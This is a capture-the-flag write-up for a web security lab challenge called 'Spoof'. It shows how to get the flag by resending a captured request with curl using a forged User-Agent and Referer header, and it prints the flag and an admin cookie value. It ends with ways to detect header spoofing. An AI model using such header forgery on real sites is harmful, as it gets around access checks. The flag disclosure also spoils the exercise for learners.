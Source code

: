 ## Spoof

## Flag

```
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```

## How to find the flag

This flag is located going to the main page, if we scroll down to find a button labeled **BornToSec**, we click on it and we navigate to a page that features a song. If we inspect the page, there is a section of comments. The important part is:

- You must come from : “https://www.nsa.gov/”.
- Let’s use this browser : “ft_bornToSec”. It will help you a lot.

This part makes reference to the **user-agent** and the **referer** section of a request.

If we use a tool like Burp Suite or similar to capture the HTTP request sent to the web server:

```
GET /?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f HTTP/1.1
Host: 192.168.x.x
Accept-Language: es-ES,es;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.x.x/
Accept-Encoding: gzip, deflate, br
Cookie: I_am_admin=68934a3e9455fa72420237eb05902327
Connection: keep-alive
```

We can use this request in order to do an user-agent spoof using **curl**:

```bash
curl -X GET "http://192.168.x.x/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f" \                                                                  ok | at 20:36:25
     -H "Accept-Language: es-ES,es;q=0.9" \
     -H "Upgrade-Insecure-Requests: 1" \
     -H "User-Agent: ft_bornToSec" \
     -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7" \
     -H "Referer: https://www.nsa.gov/" \
     -H "Accept-Encoding: gzip, deflate, br" \
     -H "Cookie: I_am_admin=68934a3e9455fa72420237eb05902327" \
     -H "Connection: keep-alive" \
     --output response.html --compressed
```

If we open the file **response.html**, then we get the flag.

## How to avoid this attack

There is several ways to avoid or detect user-agent spoof:

- **HTTP header analysis:** Other headers, like Accept-Language or Accept-Encoding, often align with User-Agent. Inconsistencies between headers can suggest a suspicious request.
- **Behavior analysis**: Check if the client behaves as expected on its User-Agent. For example, if the client claims to be a mobile browser but the client interacts with the page like a Desktop.
